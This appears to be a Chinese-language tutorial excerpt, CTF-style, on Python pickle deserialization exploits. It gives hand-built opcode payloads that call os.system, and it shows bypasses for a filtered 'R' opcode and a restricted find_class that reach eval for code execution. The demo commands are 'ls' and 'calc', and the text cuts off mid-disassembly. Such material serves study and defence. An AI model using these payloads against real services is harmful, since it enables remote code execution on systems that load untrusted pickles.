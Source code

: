 ```python
```
填充上：
```python
cos
system #引入 os 模块的 system 方法，这里实际上是一步将函数添加到 stack 的操作
(S'ls' # 把当前 stack 存到 metastack，清空 stack，再将 'ls' 压入 stack
tR. # t 也就是将 stack 中的值弹出并转为 tuple，把 metastack 还原到 stack，再将 tuple 压入 stack
# R 的内容就成为了 system(*('ls',)) ，然后 . 代表结束，返回当前栈顶元素
<=> __import__('os').system(*('ls',))
```
<a name="P3cNE"></a>
## 直接过滤R
<a name="zMdGv"></a>
### io绕过
i指令
```python
import pickle
data =b"\x80\x03(S'ls'\nios\nsystem\n."
pickle.loads(data)
```
O指令
```python
import pickle
data =b"\x80\x03(cos\nsystem\nS'ls'\no."
pickle.loads(data)
```
<a name="w0N4R"></a>
## 绕过find_class函数
```python
opcode=b'''cbuiltins
getattr
p0                    #取到 getattr
(cbuiltins
dict
S'get'
tRp1
cbuiltins
globals
)Rp2                  # getattr(dict, 'get')
00g1
(g2
S'__builtins__'       # get(__import__('builtins').globals(), '__builtins__')
tRp3
0g0
(g3
S'eval'
tR(S'__import__("os").system("calc")'    # 取到 eval 然后实现 RCE
tR.
'''
```
R被禁用时：
```python
opcode=b'\x80\x03(cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00getop2\n0(g2\n(cbuiltins\nglobals\noX\x0C\x00\x00\x00__builtins__op3\n(g0\ng3\nX\x04\x00\x00\x00evalop4\n(g4\nX\x21\x00\x00\x00__import__("os").system("calc")o00.'#最后两个0是栈为空，否则会报错

'''
    0: \x80 PROTO      3
    2: (    MARK
    3: c        GLOBAL     'builtins getattr'
   21: p        PUT        0
   24: c        GLOBAL     'builtins dict'
```